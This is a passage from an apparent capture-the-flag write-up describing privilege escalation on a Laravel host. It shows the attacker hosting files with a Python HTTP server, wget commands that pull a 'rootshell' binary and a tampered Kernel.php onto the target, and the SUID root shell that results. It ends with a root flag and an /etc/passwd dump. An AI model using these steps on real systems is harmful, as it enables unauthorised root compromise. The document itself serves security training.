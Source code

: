 Now we can upload our files to the tartget machine. 

On your attacker machine, run the following command:

```bash
python3 -m http.server 8000
```

On the target machine, run the following commands:

```bash
cd /tmp/
wget http://10.10.14.12:8000/rootshell
cd /var/www/laravel/app/Console
wget http://10.10.14.12:8000/Kernel.php
mv Kernel.php.1 Kernel.php
```

After waiting for a couple minutes, we can see the file permissions change:

![[rootshell_perm1.png]]

![[rootshell_perm2.png]]

They changed from:

```txt
-rw-r--r--  1 www-data www-data 16232 Mar 19 23:39 rootshell
```

To:

```txt
-rwsr-xr-x  1 root root 16232 Mar 19 23:39 rootshell
```

Now we can execute the file:

```bash
cd /tmp/
./rootshell
```

![[root.txt.png]]

```txt
1703b8a3c9a8dde879942c79d02fd3a0
```

### /etc/passwd

```txt
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/bin/bash
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
systemd-timesync:x:100:102:systemd Time Synchronization,,,:/run/systemd:/bin/false
```